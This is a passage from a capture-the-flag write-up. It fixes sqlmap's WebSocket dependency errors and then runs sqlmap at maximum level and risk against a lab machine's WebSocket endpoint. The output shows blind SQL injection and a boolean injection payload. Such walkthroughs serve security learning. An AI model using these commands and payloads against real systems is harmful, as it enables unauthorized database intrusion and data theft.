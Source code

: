 If `sqlmap` returns this error, it’s because the Python websockets library is
missing:

    
    
    [21:17:13] [CRITICAL] sqlmap requires third-party module 'websocket-client' in order to use WebSocket functionality 
    

Or if `sqlmap` returns this error, it’s because the wrong websockets library
is installed:

    
    
    [21:18:30] [ERROR] wrong modification time of '/usr/share/sqlmap/sqlmapapi.py'
    [21:18:30] [ERROR] wrong modification time of '/usr/share/sqlmap/sqlmap.py'
    [21:18:30] [ERROR] wrong modification time of '/usr/share/sqlmap/thirdparty/identywaf/identYwaf.py'
    [21:18:30] [CRITICAL] wrong websocket library detected (Reference: 'https://github.com/sqlmapproject/sqlmap/issues/4572#issuecomment-77504
    1086')
    

Either of these are fixed with `pip install websocket-client`.

I’ll give it the following arguments:

  * `-u "ws://soc-player.soccer.htb:9091"` \- The URL to connect to.
  * `--data '{"id": "1234"}'` \- The data to send.
  * `--dbms mysql` \- Tell `sqlmap` that it’s running MySQL.
  * `--batch` \- Take the default answer on all questions.
  * `--level 5 --risk 3` \- Increase to the most aggressive to find the boolean injection (without this it just finds a time-based injection, which is really slow).

It finds a time-based injection, and then finds the three column `UNION`-based
boolean as well:

    
    
    oxdf@hacky$ sqlmap -u ws://soc-player.soccer.htb:9091 --data '{"id": "1234"}' --dbms mysql --batch --lev
    el 5 --risk 3
    ...[snip]...
    [21:24:42] [INFO] testing connection to the target URL
    ...[snip]...
    [21:30:25] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause'
    [21:30:32] [INFO] (custom) POST parameter 'JSON id' appears to be 'OR boolean-based blind - WHERE or HAVING clause' injectable 
    ...[snip]...
    [21:30:45] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
    [21:30:56] [INFO] (custom) POST parameter 'JSON id' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable
    ...[snip]...
    [21:32:28] [INFO] checking if the injection point on (custom) POST parameter 'JSON id' is a false positive
    (custom) POST parameter 'JSON id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
    sqlmap identified the following injection point(s) with a total of 373 HTTP(s) requests:
    ---
    Parameter: JSON id ((custom) POST) 
        Type: boolean-based blind
        Title: OR boolean-based blind - WHERE or HAVING clause
        Payload: {"id": "-1533 OR 9982=9982"}
    
